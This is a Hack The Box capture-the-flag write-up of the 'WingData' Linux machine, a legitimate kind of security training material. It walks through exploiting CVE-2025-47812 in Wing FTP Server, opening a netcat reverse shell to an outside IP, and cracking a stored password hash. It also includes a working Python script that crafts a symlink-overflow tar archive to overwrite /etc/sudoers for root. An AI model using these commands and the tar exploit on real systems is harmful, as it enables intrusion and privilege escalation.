


# HTB: WingData (Easy)

> **Hack The Box Writeup**
>
> **Machine:** WingData  
> **Difficulty:** Easy  
> **Operating System:** Linux  
> **Date Solved:** 2026-06-01  

---

# Executive Summary

| Field                | Value                                     |
| -------------------- | ----------------------------------------- |
| Machine Name         | WingData                                  |
| OS                   | Linux                                     |
| Difficulty           | Easy                                      |
| Initial Access       | Wing FTP Server RCE                       |
| Vulnerability        | CVE-2025-47812                            |
| User Access          | Cracked FTP User Credentials              |
| Privilege Escalation | Python tarfile.extractall() Vulnerability |
| Final Access         | Root                                      |

---

# Attack Path

```text
Reconnaissance
    ↓
Virtual Host Discovery
    ↓
Wing FTP Server v7.4.3
    ↓
CVE-2025-47812 RCE
    ↓
Reverse Shell as wingftp
    ↓
Credential Discovery
    ↓
Hash Cracking
    ↓
SSH Access as wacky
    ↓
Sudo Enumeration
    ↓
Python tarfile.extractall() Exploit
    ↓
Root Access
```

---

# 1. Enumeration & Reconnaissance

Add the target host:

```bash
echo "10.129.6.155 wingdata.htb" | sudo tee -a /etc/hosts
```

Browse to:

```text
http://wingdata.htb
```

The website exposes a client portal.



Clicking **Client Portal** redirects to:

```text
http://ftp.wingdata.htb
```

Add the virtual host:

```bash
echo "10.129.6.155 ftp.wingdata.htb" | sudo tee -a /etc/hosts
```

A login page is displayed.



---

# 2. Wing FTP Enumeration

The login page reveals the software version:

```text
Wing FTP Server v7.4.3
```

Research identifies a known vulnerability:

```text
CVE-2025-47812
```

This vulnerability allows Remote Code Execution.

---

# 3. Exploiting CVE-2025-47812

Clone the exploit repository:

```bash
git clone https://github.com/r0otk3r/CVE-2025-47812.git
cd CVE-2025-47812/
chmod +x wingftp_cve_2025_47812.py
```

Verify command execution:

```bash
python3 wingftp_cve_2025_47812.py -u "http://ftp.wingdata.htb" -c whoami
```

Output:

```text
[*] Target: http://ftp.wingdata.htb
[*] Running command: whoami

[+] Exploit successful!

--- Command Output ---
wingftp
----------------------
```

The exploit works successfully.

---

# 4. Reverse Shell

Start a listener:

```bash
nc -nvlp 9001
```

Execute:

```bash
python3 wingftp_cve_2025_47812.py -u "http://ftp.wingdata.htb" -c "busybox nc 10.10.15.115 9001 -e sh"
```

A shell is obtained as:

```text
wingftp@wingdata
```

---

# 5. Credential Discovery

Enumerate administrator files:

```bash
ls -la /opt/wftpserver/Data/_ADMINISTRATOR/
```

Read the administrator account file:

```bash
cat Data/_ADMINISTRATOR/admins.xml
```

Administrator account discovered:

```xml
<Admin_Name>admin</Admin_Name>
<Password>a8339f8e4465a9c47158394d8efe7cc45a5f361ab983844c8562bef2193bafba</Password>
```

Read settings:

```bash
cat Data/_ADMINISTRATOR/settings.xml
```

Enumerate FTP users:

```bash
cat Data/1/users/wacky.xml
```

User **wacky** contains the password hash:

```text
32940defd3c3ef70a2dd44a5301ff98<SNIP>baae76ff5b8783994f8a503ca
```

---

# 6. Password Cracking

Identify the hash type:

```text
WingFTP
```

Crack the hash:

```bash
hashcat -m 1410 hash /usr/share/wordlists/rockyou.txt
```

Recovered password:

```text
!#7Blushing^*Bride5
```

---

# 7. SSH Access

Login using the recovered credentials:

```bash
ssh wacky@wingdata.htb
```

Retrieve the user flag:

```bash
cat /home/wacky/user.txt
```

---

# 8. Privilege Escalation Enumeration

Check sudo permissions:

```bash
sudo -l
```

Output:

```text
(root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

Inspect the script:

```bash
cat /opt/backup_clients/restore_backup_clients.py
```

The script performs archive extraction using:

```python
tar.extractall(path=staging_dir, filter="data")
```

This becomes the privilege escalation vector.

---

# 9. Exploiting tarfile.extractall()

Create the following Python file:

```python
import tarfile
import os
import io

comp = 'd' * 247
steps = "abcdefghijklmnop"
path = ""

with tarfile.open("backup_9999.tar", mode="w") as tar:
    # Build the path overflow chain
    for i in steps:
        a = tarfile.TarInfo(os.path.join(path, comp))
        a.type = tarfile.DIRTYPE
        tar.addfile(a)

        b = tarfile.TarInfo(os.path.join(path, i))
        b.type = tarfile.SYMTYPE
        b.linkname = comp
        tar.addfile(b)

        path = os.path.join(path, comp)

    # Create the link that exceeds PATH_MAX
    linkpath = os.path.join("/".join(steps), "l"*254)

    l = tarfile.TarInfo(linkpath)
    l.type = tarfile.SYMTYPE
    l.linkname = "../" * len(steps)
    tar.addfile(l)

    # Target /etc via the overflow escape
    e = tarfile.TarInfo("escape")
    e.type = tarfile.SYMTYPE
    e.linkname = linkpath + "/../../../../../../../etc"
    tar.addfile(e)

    # Create a hardlink to sudoers and provide new content
    f = tarfile.TarInfo("sudoers_link")
    f.type = tarfile.LNKTYPE
    f.linkname = "escape/sudoers"
    tar.addfile(f)

    content = b"wacky ALL=(ALL) NOPASSWD: ALL\n"

    c = tarfile.TarInfo("sudoers_link")
    c.type = tarfile.REGTYPE
    c.size = len(content)
    tar.addfile(c, fileobj=io.BytesIO(content))
```

Copy the archive:

```bash
cp backup_9999.tar /opt/backup_clients/backups/
```

Execute the vulnerable restore script:

```bash
sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py -b backup_9999.tar -r restore_evil
```

Output:

```text
[+] Backup: backup_9999.tar
[+] Staging directory: /opt/backup_clients/restored_backups/restore_evil
[+] Extraction completed in /opt/backup_clients/restored_backups/restore_evil
```

---

# 10. Root Access

Verify permissions:

```bash
sudo -l
```

Output:

```text
(ALL) NOPASSWD: ALL
```

Retrieve the root flag:

```bash
sudo cat /root/root.txt
```

---

# Key Findings

| Finding                                   | Impact                       |
| ----------------------------------------- | ---------------------------- |
| Wing FTP Server v7.4.3                    | Vulnerable to CVE-2025-47812 |
| Remote Code Execution                     | Initial foothold             |
| Stored FTP credentials                    | User compromise              |
| Weak password                             | SSH access                   |
| Sudo-accessible backup restoration script | Privilege escalation path    |
| Vulnerable tarfile extraction             | Root compromise              |

---

# Lessons Learned

* Always enumerate virtual hosts.
* Service version disclosure frequently leads directly to public exploits.
* Configuration files often contain reusable credentials.
* Password cracking remains valuable even after obtaining a shell.
* Archive extraction routines must validate paths and links correctly.
* Sudo-accessible scripts should be carefully reviewed for unsafe functionality.

---

# Flags

## User Flag

```bash
cat /home/wacky/user.txt
```

## Root Flag

```bash
sudo cat /root/root.txt
```

---

**Machine:** WingData  
**Difficulty:** Easy  
**Status:** Owned  
